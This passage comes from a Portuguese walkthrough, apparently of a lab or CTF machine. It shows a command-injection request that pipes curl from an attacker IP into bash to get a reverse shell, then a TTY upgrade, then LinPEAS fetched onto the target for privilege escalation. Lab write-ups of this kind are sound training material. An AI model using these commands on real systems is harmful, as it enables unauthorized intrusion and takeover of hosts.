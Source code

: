 ```http
GET /_ul/vert16x?cmd=curl%20http%3A%2F%2F10.0.21.49%2Fshell.sh%7Cbash
```

Se o `python3 -m http.server` mostra um `GET /shell.sh`, e o Netcat conecta, você tem shell reversa!

---

##  **PASSO 9 – Upgrade do Shell para TTY**

No shell recebido:

```bash
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo;fg
Enter
export TERM=xterm
```

---

##  **PASSO 10 – Privesc via Linux Capabilities (`cap_sys_admin`)**

## Etapa: Executar o **LinPEAS** para encontrar uma brecha de privesc

###  **1. No seu Kali (máquina de ataque):**

Entre no diretório que quiser e baixe o LinPEAS:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Depois, rode um servidor HTTP:

```bash
python3 -m http.server 80
```

Você verá:

```bash
Serving HTTP on 0.0.0.0 port 80 ...
```

---

### **2. Na máquina comprometida (na shell do alvo):**

 Importante estar em um diretório onde possa escrever, por exemplo `/tmp`.

```bash
curl http://10.0.21.49/linpeas.sh -o linpeas.sh
```

---